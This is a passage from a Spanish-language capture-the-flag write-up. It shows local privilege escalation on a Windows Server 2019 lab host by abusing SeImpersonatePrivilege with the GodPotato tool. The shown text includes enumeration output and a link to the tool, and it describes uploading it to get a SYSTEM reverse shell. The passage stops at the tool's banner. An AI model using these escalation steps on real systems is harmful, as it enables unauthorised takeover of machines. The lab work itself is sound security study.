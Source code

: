             C:\xampp\htdocs\uploads>whoami /priv
            whoami /priv
            
            PRIVILEGES INFORMATION
            ----------------------
            
            Privilege Name                Description                               State   
            ============================= ========================================= ========
            SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
            SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
            SeCreateGlobalPrivilege       Create global objects                     Enabled 
            SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled      


  - Seguimos siendo el usuario "evader" pero en este caso tenemos el privilegio "SeImpersonatePrivilege ---> Enabled"
 
    1) Buscamos informacion de como elevar privilegios localmente, basandonos en los permisos y SO que tenemos disponibles.
     
            C:\xampp\htdocs\uploads>systeminfo
            systeminfo
            
            Host Name:                 HOSTEVASION
            OS Name:                   Microsoft Windows Server 2019 Datacenter
            OS Version:                10.0.17763 N/A Build 17763
            System Type:               x64-based PC
            [...]

          [+]Informacion metodos: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
          
          [+]Metodo que vamos a utilizar: https://github.com/BeichenDream/GodPotato/releases
     
          Nota: Descargamos  GodPotato-NET4.exe

    2) Subimos GodPotato-NET4.exe a la maquina windows como en procesos anteriores.
   
    3) Obtenemos una reverse shell como  NT AUTHORITY\SYSTEM y leemos flag de Administrator.
   
            C:\xampp\htdocs\uploads>GodP.exe
            GodP.exe                                                                                           
                FFFFF                   FFF  FFFFFFF                                                       
               FFFFFFF                  FFF  FFFFFFFF                                                      
              FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF                
              FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
              FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
             FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF   
             FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF  
             FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF  
             FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF 
             FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF 
              FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF 
              FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF  
               FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF   
                FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF    
            Arguments:
            